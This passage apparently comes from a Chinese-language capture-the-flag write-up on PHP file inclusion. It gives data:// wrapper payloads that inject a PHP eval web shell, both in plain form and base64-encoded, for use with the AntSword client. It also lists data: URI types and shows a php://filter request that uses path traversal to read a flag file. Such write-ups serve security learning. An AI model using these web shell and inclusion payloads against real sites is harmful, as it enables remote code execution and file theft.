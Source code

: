 ```

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

这里我们用

```
?file=php://filter/read=convert.base64-encode/resource=..././..././..././..././flag
```

得到base64

![image-20240124130533543](image/image-20240124130533543.png)
